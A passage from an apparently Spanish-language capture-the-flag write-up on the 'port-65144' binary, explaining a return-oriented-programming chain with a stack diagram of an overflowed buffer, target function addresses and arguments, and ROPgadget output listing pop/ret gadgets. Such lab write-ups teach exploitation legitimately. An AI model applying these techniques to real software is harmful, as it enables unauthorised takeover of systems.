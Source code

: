 Como dice el texto "Gotcha func1". Podemos ver que esta función cambia el valor de la variable en `.bss` lo cual es importante para más adelante. Ahora creo que podemos hacer lo mismo con "gotcha func2", pero ahora tenemos que usar algo llamado gadgets.

### Gadgets

Los gadgets son instrucciones que nos ayudan a controlar el flujo del programa, en este caso necesitamos un gadget que realice un `pop; pop; ret; `¿por qué?

Nuestra stack se ve así en este momento:

```raw
+++++++++++
higest addr
+==STACK==+
+++++++++++
+++++++++++
+++++++++++
+++++++++++
+         +
+         +
+         +   300                         FUNCTION 1 ARG2
+         +   0x9c                        FUNCTION 1 ARG1
+         +   JUNK                        JUNK FOR NOW
+   EIP   +   0x8049256                   FUNCTION 1 ADDREESS
+   EBP   +   AAAA                        EBP
+   VAR1  +   AAAAAAAAAAAAAAAAAAA...      BUFFER
+         +
+         +
+   ...   +
+   ...   +
+   ...   +
+   ESP   +
+         +
+++++++++++
lowest addr
+++++++++++
```

Bien, cuando la función 1 retorne, donde ponemos `JUNK` será nuestro próximo `EIP`, pero como tenemos que pasar argumentos a la siguiente función, necesitamos que el gadget elimine los argumentos actuales de la stack para dejar espacio para el próximo `EIP` y los argumentos. Entonces tenemos que eliminar arg1 y arg2.

Recordemos cómo se ve la segunda función y cómo obtenemos el gadget.

<center><img src="post-assets/port-65144-ghidra-3.png" width="662" alt="ghidra" /></center>

Esta función toma 3 argumentos y los valores deben ser 1er argumento = `0` (cero), 2do y 3er argumentos = `0xd`

Para ayudarnos, instalaré <a href="https://github.com/JonathanSalwan/ROPgadget" target="_blank">ROPGadget</a> que nos mostrará qué gadgets están disponibles.

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 ROPgadget/ROPgadget.py --binary port-65144 | grep pop
0x080494cd : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x0804949d : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804901f : add esp, 8 ; pop ebx ; ret
0x0804942e : clc ; pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x08049294 : inc dword ptr [ebx - 0x746fef3c] ; pop ebp ; cld ; leave ; ret
0x0804949c : jecxz 0x8049429 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x0804949b : jne 0x8049489 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804942c : lea esp, [ebp - 8] ; pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x08049020 : les ecx, ptr [eax] ; pop ebx ; ret
0x0804949e : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
```